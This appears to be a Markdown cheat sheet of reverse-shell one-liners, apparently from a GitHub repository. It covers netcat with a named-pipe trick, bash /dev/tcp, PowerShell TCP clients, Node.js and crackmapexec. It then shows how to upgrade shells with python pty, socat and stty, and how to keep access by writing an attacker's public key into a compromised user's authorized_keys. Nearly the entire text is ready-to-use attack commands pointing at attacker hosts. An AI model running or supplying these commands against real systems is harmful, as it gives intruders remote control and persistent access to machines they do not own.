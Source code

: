 # Shells

## Netcat (nc)  

Some version of netcat do not have the `-e` switch avaiable.  On these you can pipe the commands into netcat.  

Server:
```
rm -f /tmp/f; mkfifo /tmp/f
cat /tmp/f | /bin/sh -i 2>&1 | nc IP PORT  > /tmp/f
```
Client:  
`nc -lvp PORT`

## Bash  
`bash -i >& /dev/tcp/10.0.0.1/4242 0>&1`  

## Powershell
`powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<IP ADDRESS>',9001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
`

## Node.js  
`require('child_process').exec('bash+-c+"bash+-i+>%26+/dev/tcp/192.168.49.170/80+0>%261"')`

## Crackmapexec with Powershell
```
crackmapexec smb -d . -u <user> -p '<password>' -X "$c = New-Object System.Net.Sockets.TCPClient('<LHOST>',<LPORT>);$s = $c.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $d 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$c.Close()" <RHOST>
```
  
# Upgrading to Interactive Shells

## Simple upgrades  
Python  
`python -c 'import pty;pty.spawn("/bin/bash")'`  

Script  
```
exec script /dev/null      
Script started, file is /dev/null    
bash
```

Socat  
Listener:  
```socat file:`tty`,raw,echo=0 tcp-listen:<PORT>```

Victim:  
`socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<LISTENER_IP>:<PORT>`  

## Upgrading to full interactive shell  
**In existing reverse shell**  
```
python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z   
```

Attacker  
```
stty raw -echo  
fg  
```
in zsh  
```
stty raw -echo; fg <enter><enter>
```

Victim  
```reset 
export SHELL=bash  
export TERM=xterm-256color  
stty rows <num> columns <cols>  
``` 
**SSH**  


1. Create a .ssh directory in the home directory of the compromised user.
2. Create a new keypair on the attacker machine using `ssh-keygen` 
3. Transfer the public key to the victim machine at save in the .ssh folder as `authorized_keys`
4. Apply the appropriate file permissions  
```
chmod 0700 /home/user/.ssh  
chmod 0644 /home/user/.ssh/authorized_keys
```
6. SSH into the system using the private key.

